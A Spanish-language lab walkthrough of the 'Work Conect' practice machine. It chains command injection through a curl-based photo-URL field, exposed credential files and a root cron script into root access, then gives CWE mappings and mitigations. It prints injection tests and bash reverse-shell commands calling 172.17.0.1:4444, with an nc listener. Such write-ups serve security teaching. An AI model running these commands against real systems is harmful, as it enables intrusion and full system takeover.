

# Work Conect

**Nivel de Dificultad:** Medio

## Resumen Ejecutivo

Work Conect es un laboratorio de ciberseguridad diseñado para demostrar las consecuencias críticas de vulnerabilidades web comunes en aplicaciones de redes sociales laborales. El laboratorio expone múltiples vectores de ataque que se encadenan para lograr acceso de administrador y, finalmente, escalada de privilegios a nivel de root. Las vulnerabilidades principales incluyen inyección de comandos, exposición de información sensible y ejecución de tareas programadas sin validación adecuada.

## 1. Reconocimiento Inicial

El laboratorio comienza con un escaneo de Nmap que revela un servicio HTTP abierto en el puerto 8000:


Posteriormente, se accede al servicio web, donde se identifica una plataforma de red social laboral:


## 2. Enumeración de Funcionalidades

Al investigar la aplicación, se descubren módulos de registro e inicio de sesión de usuarios:

### Registro de Usuarios:


### Inicio de Sesión:


Se crea una cuenta y se inicia sesión, revelando un panel de control de usuario:


Durante la investigación adicional, se descubre que la documentación de los endpoints de la API está públicamente accesible (FastAPI Swagger):


## 3. Análisis de Vectores de Ataque

Tras un análisis inicial, se descarta la posibilidad de inyección SQL. Sin embargo, se identifica una funcionalidad de carga de foto de perfil en el panel de control. El sistema solicita una URL de descarga en lugar de permitir una carga directa de archivos, lo que requiere configurar un servidor HTTP local:


### Intento de Carga de Archivo:

La descarga desde la aplicación es exitosa, demostrando que no hay validación de extensión de archivos. No obstante, el archivo descargado no puede ejecutarse, limitando este vector de ataque:


## 4. Explotación por Inyección de Comandos

Se descubre que el sistema ejecuta comandos de terminal, específicamente `curl` para descargar archivos. Esto abre la puerta para una inyección de comandos. Se prueba la teoría utilizando el operador `&&` junto con el comando `id`:


La ejecución es exitosa. Se procede a probar comandos adicionales, como la lectura del archivo `/etc/passwd`:


Se intenta ejecutar una reverse shell estándar, aunque sin éxito en este punto:


## 5. Descubrimiento de Archivos Sensibles

Se listan los elementos del directorio actual utilizando `ls`, descubriendo varios archivos potencialmente vulnerables:


Los archivos más relevantes identificados son:
- `dnis_encontrados.txt`
- `backup.py`
- `entrypoint.sh`
- `database.db`

Se procede a revisar cada uno:





Los archivos `dnis_encontrados.txt` y `database.db` revelan información altamente sensible de usuarios, incluyendo números de identificación y credenciales de acceso. También se exponen las credenciales de un usuario administrador. Se procede a iniciar sesión con estas credenciales administrativas, confirmando acceso elevado a la plataforma.

## 6. Escalada de Privilegios

Se examina el archivo `entrypoint.sh` y se descubre que `backup.py` se ejecuta automáticamente cada 60 segundos con privilegios de root. Esta es una oportunidad crítica para la escalada de privilegios:


Se procede a modificar el archivo `backup.py` inyectando un comando que establece una reverse shell, preservando los privilegios de root del proceso. El comando ejecutado es:

```bash
echo '\nimport os; os.system("/bin/bash -c '\''/bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'\''")' >> /opt/backup.py
```


**Nota Técnica Importante:** El directorio actual del sistema es `/opt/workconect`, que contiene una copia de `backup.py`. Sin embargo, el script programado ejecuta el archivo ubicado en `/opt/`. Por lo tanto, solo la modificación del archivo en `/opt/backup.py` resultará en la ejecución de la reverse shell.

## 7. Obtención de Acceso Root

Se inicia una sesión de escucha en la máquina atacante utilizando `nc -lnvp 4444` y se espera a la ejecución automática del script programado:


La reverse shell se obtiene exitosamente con privilegios de root, completando el objetivo del laboratorio.

## Notas Generales

Aunque no es estrictamente necesario iniciar sesión como administrador para explotar el laboratorio, en un escenario real, el hecho de que las credenciales administrativas estén expuestas es una vulnerabilidad crítica. La exposición de credenciales administrativas y la capacidad de acceder a cuentas de otros usuarios revelan información privilegiada que comprometería la integridad, confidencialidad y disponibilidad de los datos y sistemas de otros usuarios.

Si bien la reverse shell inicial fallo, fue por usar un comando incompleto, al elaborar uno diferente funciona, trabajando, de ser necesria la comodidad, desde una terminal local:

Comando secundario: 
```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"
```

## Vulnerabilidades Identificadas

1. **Inyección de Comandos (Command Injection)** - CWE-78
2. **Exposición de Información Sensible** - CWE-200
3. **Validación Deficiente de Carga de Archivos** - CWE-434
4. **Control de Acceso Impropio** - CWE-284
5. **Escalada de Privilegios mediante Tareas Programadas** - CWE-269

## Recomendaciones de Mitigación

### 1. Inyección de Comandos
**Recomendación:** Implementar un enfoque de lista blanca (whitelist) para validar y desinfectar todas las entradas de usuario antes de utilizarlas en operaciones de línea de comandos. Preferiblemente, utilizar APIs de lenguaje de programación en lugar de ejecutar comandos del shell. Emplear funciones como `subprocess.run()` en Python con parámetros descompuestos (shell=False) en lugar de concatenar comandos en strings.

### 2. Exposición de Información Sensible
**Recomendación:** Nunca almacenar información sensible (DNIs, números de documento de identidad, credenciales, etc.) en archivos de texto plano. Implementar encriptación en reposo para datos sensibles. Establecer controles de acceso estrictos en el sistema de archivos, asignando permisos mínimos necesarios (principio de menor privilegio). Realizar auditorías periódicas de acceso a archivos y registrar todos los intentos de lectura de archivos sensibles.

### 3. Validación Deficiente de Carga de Archivos
**Recomendación:** Validar tanto la extensión como el tipo MIME (Magic Bytes) de los archivos antes de permitir su descarga. Implementar una lista blanca de tipos de archivo permitidos. Almacenar archivos fuera del directorio web accesible públicamente y servir a través de un mecanismo controlado. Ejecutar análisis antimalware en archivos descargados.

### 4. Control de Acceso Impropio
**Recomendación:** Implementar segregación de datos por usuario. Crear modelos de control de acceso basados en roles (RBAC) o atributos (ABAC). Asegurar que los usuarios solo puedan acceder a sus propios datos. Validar todos los parámetros de entrada que hagan referencia a recursos para prevenir escalada horizontal de privilegios (IDOR - Insecure Direct Object References).

### 5. Escalada de Privilegios mediante Tareas Programadas
**Recomendación:** Ejecutar procesos programados con el mínimo nivel de privilegio necesario. Implementar integridad de archivos para scripts ejecutados automáticamente, utilizando checksums o firmas digitales. Implementar AppArmor o SELinux para restringir las operaciones que pueden realizar procesos con privilegios elevados. Auditar y registrar todas las modificaciones a scripts críticos y tareas programadas.

---

## Conclusión

Este laboratorio demuestra cómo la combinación de múltiples vulnerabilidades de seguridad aparentemente menores puede resultar en un compromiso total del sistema. La cadena de ataque: reconocimiento → inyección de comandos → exposición de datos → escalada de privilegios, ilustra la importancia de aplicar principios de defensa en profundidad y mantener controles de seguridad robustos en todas las capas de la aplicación.

